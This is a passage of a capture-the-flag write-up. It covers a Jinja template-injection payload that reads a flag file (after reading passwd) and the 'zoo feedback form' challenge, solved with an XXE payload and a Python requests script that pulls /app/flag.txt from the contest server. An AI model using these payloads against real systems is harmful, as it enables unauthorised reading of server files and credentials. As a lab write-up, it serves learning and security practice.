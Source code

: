 which showed me the contents of the passwd file and

`{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('flag').read()}}` 

showed the flag file's content.

## zoo feedback form

category: beginner, web

"The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!"

when you look at the source code of the app, the `submitFeedback()` method in `index.html` looked promising; it posts a string (which needs to be valid XML) to the app at the endpoint `/`

in `app.py` you see the flask route which handles this POST request. in each case, we need the POST parameter "feedback" present in a valid XML, otherwise we get an error.

the regular use of the API would e.g. render the word "test" with a feedback post parameter value like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root><feedback>test</feedback></root>
```

since the "feedback" parameter is otherwise not sanitized, this looked like template injection with a different spin. 

after a quick google search for xml vulnerabilities with python's `etree.XMLParser` class (as seen in `app.py`), i found this link: 

https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870

the vulnerability (apart from allowing the user to POST unsanitized XML) is that the XMLParser is allowed to include entities with `resolve_entities=True`.

after a bit of fiddling around with the potential payloads from the link above, this was the final value of the feedback parameter which i used to get the flag:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE feedback [ <!ELEMENT feedback ANY > 
<!ENTITY xxe SYSTEM "file:////app/flag.txt" >]>
<root><feedback>&xxe;</feedback></root>
```

or in a script:

```python
import requests

# adjust with your host
host = "web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev"
port = 443

to_post = ('<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE feedback '
           '[ <!ELEMENT feedback ANY > <!ENTITY xxe SYSTEM "file:////app/flag.txt" >]><root><feedback>&xxe;</feedback></root>')

headers = {
    "Content-Type": "application/xml"
    }

x = requests.post(f"https://{host}:{port}/", data=to_post, headers=headers)

response = x.text

print(response)
```
